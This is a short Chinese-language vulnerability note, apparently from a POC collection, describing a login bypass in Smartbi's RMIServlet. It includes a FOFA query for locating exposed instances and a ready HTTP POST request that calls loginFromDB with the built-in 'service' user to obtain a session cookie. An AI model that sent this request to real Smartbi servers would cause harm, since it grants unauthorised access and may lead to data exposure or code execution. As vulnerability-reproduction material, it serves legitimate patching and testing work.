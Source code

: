 # smartbi RMIServlet 登陆绕过漏洞

## 漏洞描述

Smartbi在安装时会内置几个用户，在使用特定接口时，可绕过用户身份认证机制获取其身份凭证，随后可使用获取的身份凭证调用后台接口，可能导致敏感信息泄露和代码执行。

## 漏洞影响

<a-checkbox checked>smartbi</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="SMARTBI"</a-checkbox></br>

## 漏洞复现

产品页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1697869616391-78bb3b63-9a12-4276-a441-8d9c37cd939f.png)

验证POC

```php
POST /vision/RMIServlet HTTP/1.1
Host: 
Accept: */*
Content-Type: application/x-www-form-urlencoded

className=UserService&methodName=loginFromDB&params=["service","0a"]
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1697869636461-ab390dbf-5dd0-4be9-88dc-e94cd8fb0801.png)

通过获取的Cookie登陆